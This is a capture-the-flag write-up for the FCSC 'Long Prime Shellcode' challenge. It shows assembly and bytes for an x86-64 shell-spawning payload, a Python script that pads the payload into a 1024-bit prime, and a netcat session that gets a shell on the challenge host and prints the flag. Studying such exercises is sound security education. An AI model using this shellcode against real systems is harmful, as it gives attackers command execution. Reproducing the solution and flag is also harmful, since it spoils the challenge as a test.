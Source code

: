 # Long Prime Shellcode


## Challenge Statement

After Encrypted Shellcode and Hashed Shellcode, why not play with a large prime number? :-)

---

## Solution


This challenge requires constructing a valid x86-64 shellcode that also represents a large prime number. The remote service:

1. Reads your input as a decimal integer, converts it to an MPI (large integer).
2. Checks that it is between 1024 and 4095 bits.
3. Verifies it is prime via Miller–Rabin.
4. Writes the integer’s big‑endian binary representation onto the stack, marks the page executable, and calls it as code.

To solve it, you need your payload to satisfy both properties:

- **Executes** a `execve("/bin/sh", argv, NULL)` shellcode.
- **Is prime** and **1024 bits** long.

---

## Solution Overview

1. **Choose your shellcode**: a minimal, position‑independent 25‑byte execve(`/bin/sh`) stub:

   ```asm
   xor    rdx, rdx
   mov rbx, 0x0068732f6e69622f   ; "/bin/sh\0"
   push   rbx
   mov    rdi, rsp              ; rdi = "/bin/sh"
   push   rdx                   ; NULL
   push   rdi                   ; &"/bin/sh"
   mov    rsi, rsp              ; rsi = argv
   mov    al, 59                ; syscall execve
   syscall
   ```

2. **Wrap**:

   - Prepend a single `NOP (0x90)` so the MSB of the integer is 1 → exactly 1024 bits.
   - Append a `RET (0xC3)` in case `execve` fails.
   - Total so far: **27 bytes**.

3. **Pad** out to exactly 128 bytes (1024 bits):

   - Reserve 128 − 27 = 101 bytes for random tail data.
   - Force the integer to be odd by setting the low bit of the tail.

4. **Search** for a prime:

   - Convert `prefix = 0x90 || shellcode || 0xC3` into a big integer.
   - Loop: generate random `tail` of 101 bytes with LSB = 1.
   - `candidate = (prefix_int << (101×8)) | tail`.
   - Check `candidate.bit_length() == 1024` and `is_prime(candidate)`.
   - Repeat until prime found (expected a few hundred tries).

5. **Deploy**:

   ```bash
   $ nc chall.fcsc.fr 2100
   <paste_decimal_prime>⏎
   $ ls; cat flag.txt
   FCSC{...}
   ```

---

## Example Python Script

```python
#!/usr/bin/env python3
import random
from gmpy2 import mpz, is_prime

# 1) 25-byte execve("/bin/sh") shellcode
shellcode = bytes([
    0x31,0xd2,                         # xor rdx, rdx
    0x48,0xbb,                         # mov rbx,
      0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,
    0x53,                              # push rbx
    0x48,0x89,0xe7,                    # mov rdi, rsp
    0x52,                              # push rdx
    0x57,                              # push rdi
    0x48,0x89,0xe6,                    # mov rsi, rsp
    0xb0,0x3b,                         # mov al, 59
    0x0f,0x05                          # syscall
])
assert len(shellcode) == 25

# 2) Build prefix: NOP + shellcode + RET
prefix = b"\x90" + shellcode + b"\xc3"
prefix_int = int.from_bytes(prefix, 'big')
TAIL_BYTES = 128 - len(prefix)
suffix_bits = TAIL_BYTES * 8

# 3) Prime search
def find_prime():
    trials = 0
    while True:
        trials += 1
        tail = (random.getrandbits(suffix_bits - 1) << 1) | 1
        candidate = (prefix_int << suffix_bits) | tail
        if candidate.bit_length() != 1024:
            continue
        if is_prime(mpz(candidate)):
            print(f"Found in {trials} trials:")
            print(candidate)
            return

if __name__ == '__main__':
    find_prime()
```

Install dependencies and run:

```bash
pip3 install gmpy2
python3 make_prime_shellcode.py
```

Paste the resulting decimal prime into the service to get your shell and the flag.

101256902087988384546784560479096443409125276001505639585750527937943163518713649807339209649027792767486083995833075843667491648249394132614292650290033847791778514456253224452373506164263871437725798844999292886529790131826211367935999715982930156581565771182371133604029982916763586294847500804990229669949

```bash
(base) salaheddinealabouch@Salah-Eddines-MacBook-Pro-2 Desktop % nc chall.fcsc.fr 2100
101256902087988384546784560479096443409125276001505639585750527938057204161075125822942058954733972627983013326631739598457294467307309184233551664392837205290729900997953321245584243222988145969219726357402763100438306943579885771605734202941162284352974634571392981203813954826558802833779220386262715945329
ls
flag.txt
long-prime-shellcode
cat flag.txt
FCSC{41948264d0f83ddb2ececa5267e30cb4ce7fd6c7bab2f7b2b935adfcc99b5662}
```

---

## Flag

```
FCSC{41948264d0f83ddb2ececa5267e30cb4ce7fd6c7bab2f7b2b935adfcc99b5662}
```